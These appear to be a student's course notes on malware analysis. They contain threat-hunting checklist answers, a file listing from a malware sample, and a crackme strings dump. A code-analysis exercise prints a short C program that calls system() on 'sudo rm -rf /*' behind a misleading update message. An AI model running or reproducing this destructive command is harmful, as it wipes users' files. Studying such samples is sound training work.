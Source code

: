 # 📌 Day-6: Malware Analysis.

There is two type of Malware analysis
	i. Static Analysis - With out running the malware, just by using dissembler or sysinternals
	ii. Dynamic Analysis - by running the virus on sandbox's

## 📍**TOPIC 7 - Malware Hunting**

### *🔰Assignment-1:*

1) What type of security breaches you may encounter as an incident responder?
> Information and Path disclosure
> DDOS Attacks

2) To detect malicious emails, what steps would you take to examine the emails’?write Helpful threat hunting Checklists
	a, Checking if the Email is Not Spam
	b, Check if the email is Legitimate.
	c, Identify where you got the email.
	d, Try to look the mail sent, to check if you got suspecious.

### *🔰Assignment-2:*  -> Made with the Attacked "malware_sample.zip" file.

### 1) Identify new created processes, services
	> This file contains 
```bash
ls
	cczice.cmd  gupd.rar   IDM.vbs.a.zip  qgwlykqcyz..vbs  tvsymypco.js
	dulla.rar   IDM.vbs.a  kvwpjmygv.js   sslp2017.vbs
```

	we couldn't got the process and service, by technical difficulty.
<img src="MalwareAnalysis/aurorun1.jpg" alt="Autorun picture">

### 2) Identify persistence folders , registers
<img src="MalwareAnalysis/autorun.jpg" alt="Autorun picture">

## 📍**TOPIC 8 - Malware Analysis and Reverse Engineering**

### *🔰Assignment-1:* Static Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.
<img src="/home/rexder/INSA/InitProgramming/MalwareAnalysis/error.png" alt="Error of The file">

### *🔰Assignment-2:* Dynamic Malware Analysis

> We Tried to do the challange but the google drive is not allowing as to access the files.

### *🔰Assignment-3:* Code Analysis
	 A Code is Given todo analysis on it.
	 Code:
### 👉*We add a Library*
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
```
### 👉*We Will Define The variables*
```c
#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."
```
### 👉*Checks if the system/user/ is admin{ and deletes all files from the /(root) else shows and error_text* 
[ done by checking the UID, UID 0 is root else it is normal user]
```c
int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```
### *🔰Assignment-4: Reverse Engineering **1*** 

It gives as a File That ask for a Flag
> I tryed to get the strings of the binary

```bash
┌──(rexder㉿Rex)-[~/INSA/InitProgramming/MalwareAnalysis]
└─$ strings cm_rb_easy 
/lib64/ld-linux-x86-64.so.2
__cxa_finalize
__libc_start_main
strcpy
puts
strlen
__stack_chk_fail
libc.so.6
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u3UH
[!] Usage: ./cmRubiks flag
[!] The flag is too long...
[!] Bad flag!
[*] G00d flag!
```


